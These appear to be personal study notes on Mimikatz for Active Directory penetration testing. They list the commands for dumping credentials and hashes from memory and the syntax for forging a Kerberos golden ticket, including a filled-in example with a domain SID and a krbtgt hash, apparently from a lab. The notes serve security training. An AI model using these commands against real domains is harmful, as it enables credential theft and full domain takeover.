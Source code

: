 [Blog for GPP by Rapid7](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

	
	
# Mimikatz

### Its a tool
- It is used to steal credentialsm generate Kerberos Tickets and leverage attacks
- Dumps credentials stored in memory

Usage:
First Thing to be done
``` privilege::debug		 --> Debugs the privilege process
	sekurlsa::logonpasswords --> Shows all the hashes
	lsadump::lsa /patch      --> Similar and this shows rid sekurlsa:logonpasswords with less detailed and more easy to read
	lsadump::lsa /inject /name:user_name --> detailed info on users
```

### Creating a Golden Ticket
![[SIDofTheUser.png]]
Command:
`kerberos::golden /User:any_name /domain:DOMAIN.local /sid:SID_ID /krbtgt:ntlmhash_of_krbtgt_user /id:admin_rid /ptt --> Which means pass the hash`



	**0**kerberos::golden /User:Administrator /domain:ACTIVE.local /sid:S-1-5-21-2668466849-1233456057-673544522  /id:500 /krbtgt:b8db93642c64fa1f13d2f43389e6c5bd /ptt





















## Links for further study
Active Directory Security Blog: [https://adsecurity.org/](https://adsecurity.org/)

Harmj0y Blog: [http://blog.harmj0y.net/](http://blog.harmj0y.net/)

Pentester Academy Active Directory: [https://www.pentesteracademy.com/activedirectorylab](https://www.pentesteracademy.com/activedirectorylab)

Pentester Academy Red Team Labs: [https://www.pentesteracademy.com/redteamlab](https://www.pentesteracademy.com/redteamlab)

eLS PTX: [https://www.elearnsecurity.com/course/penetration_testing_extreme/](https://www.elearnsecurity.com/course/penetration_testing_extreme/)
	
